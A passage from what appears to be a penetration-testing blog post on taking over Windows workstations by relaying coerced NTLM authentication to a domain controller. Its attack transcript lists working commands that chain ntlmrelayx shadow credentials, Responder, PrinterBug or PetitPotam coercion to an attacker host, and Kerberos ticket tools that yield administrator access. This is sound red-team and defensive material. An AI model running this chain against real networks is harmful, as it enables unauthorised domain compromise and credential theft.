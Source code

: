 #### Workstation Takeover via NTLM Relay

I won't spend too much time on this scenario since I've posted more in depth about the shadow credentials variation of this attack [here](https://www.fortalicesolutions.com/posts/shadow-credentials-workstation-takeover-edition). In short, if you can relay your coerced authentication to a DC over LDAP(S) there are two potential ways you can obtain admin rights to the target: shadow credentials and resource-based constrained delegation (RBCD). A great post describing the RBCD variation can be found [here](https://gist.github.com/gladiatx0r/1ffe59031d42c08603a3bde0ff678feb).

The trick here is that SMB authentication can't usually be relayed over LDAP due to session signing. A good alternative is coercing auth to a WebDAV backconnect, but this requires the target to have the Web Client service running, generally limiting this attack to workstations. Give the articles I linked to above a read for more details and examples!

Keeping up with the visual breakdown, these two workstation takeover scenarios look like this:

‍

![](../../_resources/620d0790376ddc8566308012_Microso_6047442f46f74b118.png)

‍

##### Example Attack Transcript

```
# https://github.com/ShutdownRepo/impacket/tree/pywhisker
python3 ntlmrelayx.py -t ldap://dc.domain.local --shadow-credentials --shadow-target target\$

# https://github.com/lgandx/Responder
# SMB and HTTP off
# Will poison the name in your UNC path below, if target attempts to resolve over LLMNR/NBT-NS
./Responder.py -I eth0 -w

# https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py
python3 printerbug.py domain.local/user:pass@target.domain.local badhost@80/path

# OR
# https://github.com/topotam/PetitPotam/blob/main/PetitPotam.py
python3 PetitPotam.py -u user -p pass -d domain.local badhost@80/path target.domain.local

# Obtain TGT using https://github.com/dirkjanm/PKINITtools
# pfx file and pfx password will be generated by ntlmrelayx
python3 gettgtpkinit.py domain.local/target\$ target.ccache -cert-pfx <pfx file path> -pfx-pass <pfx password>

# Obtain a TGS using S4U2Self to obtain admin rights on the target
python3 gets4uticket.py kerberos+ccache://domain.local\\target\$:target.ccache@dc.domain.local cifs/target.domain.local@domain.local administrator@domain.local administrator.ccache -v 
```

‍

#### Substituting Initial Account Compromise with More NTLM Relay
